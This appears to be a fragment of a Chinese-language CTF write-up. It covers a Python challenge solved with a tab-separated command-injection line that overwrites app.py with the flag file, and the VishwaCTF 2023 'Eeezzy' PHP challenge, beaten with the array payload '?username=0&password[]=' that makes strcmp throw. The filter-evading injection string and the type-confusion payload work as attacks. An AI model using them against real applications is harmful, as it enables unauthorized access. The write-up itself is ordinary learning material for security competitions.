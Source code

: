 ```python
            return "waf"
    return "/source"
```

#python_escape 
命令执行绕过
`cp$(cd	..&&cd	..&&cd	..&&cd	..&&cd	..&&cd	..&&echo	$(pwd)flag)	app.py`
使用flag覆盖app.py












# [VishwaCTF 2023]

### Eeezzy

```php
<?php

    session_start();
    $_SESSION['status']=null;

    $flag="";
    try {
        if (isset($_GET['username']) && isset($_GET['password'])) {
            if (strcmp($_GET['username'], $flag)==0 && strcmp($_GET['password'], $flag)==0)
                $_SESSION['status']=$flag;
            else
                $_SESSION['status']="Invalid username or password";
        }
    } catch (Throwable $th) {
        $_SESSION['status']=$flag;
    }

?>
```

![image-20230402143632411](C:\Users\20925\AppData\Roaming\Typora\typora-user-images\image-20230402143632411.png)

根据回显也可知道会输出 $_SESSION['status'] 的内容

所以只需要抛出Throwable异常即可

payload

```
?username=0&password[]=
```

但是我不理解的是，为什么之前尝试username[] 没有成功，仅限于password单独为数组的时候才会报错
